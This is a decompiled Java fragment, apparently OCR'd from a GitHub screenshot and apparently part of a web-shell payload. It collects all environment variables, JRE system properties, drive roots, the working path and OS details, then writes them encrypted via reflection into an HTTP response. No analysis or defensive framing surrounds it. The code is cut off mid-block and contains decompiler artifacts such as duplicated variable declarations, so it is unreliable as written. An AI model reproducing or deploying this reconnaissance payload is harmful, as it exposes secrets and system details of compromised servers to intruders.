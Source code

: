 ```java
        boolean var22 = false;

        Object so;
        Method write;
        label132: {
            try {
                var22 = true;
                this.fillContext(obj);
                StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
                Map<String, String> env = System.getenv();
                Iterator var5 = env.keySet().iterator();

                while(var5.hasNext()) {
                    String name = (String)var5.next();
                    basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
                }

                basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
                Properties props = System.getProperties();
                Set<Entry<Object, Object>> entrySet = props.entrySet();
                Iterator var7 = entrySet.iterator();

                while(var7.hasNext()) {
                    Entry<Object, Object> entry = (Entry)var7.next();
                    basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
                }

                String currentPath = (new File("")).getAbsolutePath();
                String driveList = "";
                File[] roots = File.listRoots();
                File[] var10 = roots;
                int var11 = roots.length;

                for(int var12 = 0; var12 < var11; ++var12) {
                    File f = var10[var12];
                    driveList = driveList + f.getPath() + ";";
                }

                String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
                Map<String, String> entity = new HashMap();
                entity.put("basicInfo", basicInfo.toString());
                entity.put("currentPath", currentPath);
                entity.put("driveList", driveList);
                entity.put("osInfo", osInfo);
                entity.put("arch", System.getProperty("os.arch"));
                result = this.buildJson(entity, true);
                var22 = false;
                break label132;
            } catch (Exception var26) {
                var22 = false;
            } finally {
                if (var22) {
                    try {
                        Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                        Method write = so.getClass().getMethod("write", byte[].class);
                        write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
                        so.getClass().getMethod("flush").invoke(so);
                        so.getClass().getMethod("close").invoke(so);
                    } catch (Exception var23) {
                    }
```